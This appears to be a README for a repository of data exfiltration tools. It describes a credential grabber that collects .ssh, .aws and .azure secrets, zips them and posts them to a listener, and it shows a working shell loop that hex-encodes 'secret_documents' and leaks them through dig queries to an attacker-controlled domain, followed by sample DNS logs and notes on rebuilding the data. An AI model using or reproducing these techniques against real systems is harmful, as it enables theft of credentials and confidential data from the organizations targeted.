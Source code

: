# Data Exfiltration examples

There are two examples here for different target types: one uses an HTTP target which can be run on an arbitrary port. The other relies on the attacker having access to a DNS server and the logs. You could also use tcpdump/tshark to sniff DNS Lookup Packets going out, but there are other tutorials for that.

## CredsGrabber

Sample code to search through well known creds repositories for osx/linux (.ssh/.aws/.azure), zip up the contents and post them to an ephemeral web listener


**credsgrabber.py** is the local collector  and **server.py** is your listener.


## DNS Exfiltration

**dns_exfil.sh** - runs in the environment you want to move data out of. Presumes you have a file called "secret_documents.txt", but change this up to create the zipped payload. This will hex the zipfile then iteratively query the DNS server we own. 

For example:

The zipfile in hexed form will comprise lines like:
```
504b030414000000080037bc03530b2c23bbf40700004111000014001c00
7365637265745f646f63756d656e74732e74787455540900035ad209615a
d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6
4c133b9674b07d587865195ec00fd85a7d40b13bc94e4d55574f3dc8a1bf
de1159dd1c8e2c0b027c9921bbeb91191991917cf832892bd5cfa3cfa3fb
<...>
```

So we run:
```
user@securecompany:~$ for b in `cat secret_documents.hex`
> do
> dig $b.mydomain.net
> done

; <<>> DiG 9.11.3-1ubuntu1.15-Ubuntu <<>> 504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 63233
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net. IN A
```
which produces logs like:

```
4-Aug-2021 00:20:26.964 query-errors: info: client @0x7f4de00aa050 77.125.168.17#6672 (pizzaseo.com): query failed (REFUSED) for pizzaseo.com/IN/RRSIG at ../../../bin/named/query.c:6980
04-Aug-2021 00:20:29.218 queries: info: client @0x7f4de00aa050 123.456.111.11#64665 (504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net): query: 504b030414000000080037bc03530b2c23bbf40700004111000014001c00.mydomain.net IN A -E(0)DC (10.15.16.10)
04-Aug-2021 00:20:29.279 queries: info: client @0x7f4de00aa050 123.456.111.11#50114 (7365637265745f646f63756d656e74732e74787455540900035ad209615a.mydomain.net): query: 7365637265745f646f63756d656e74732e74787455540900035ad209615a.mydomain.net IN A -E(0)DC (10.15.16.10)
04-Aug-2021 00:20:29.288 queries: info: client @0x7f4de00aa050 123.456.111.11#4282 (d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6.mydomain.net): query: d2096175780b0001046b2b0000046b2b0000a557cb8e23c711bccf5714e6.mydomain.net IN A -E(0)DC (10.15.16.10)
```
which will need to be extracted to recreate the hexfile.

**extract_dns_queries.py** - runs on a DNS server you control to rebuild the hex data from the lookups. Converts the log lines into a hexfile named dns_exfil_output.hex

**hex_rebuild.sh** - simple shell script to rebuild the hexfile back into a zipfile and unzip the data. Be thoughtful about how this works for large files/datasets.



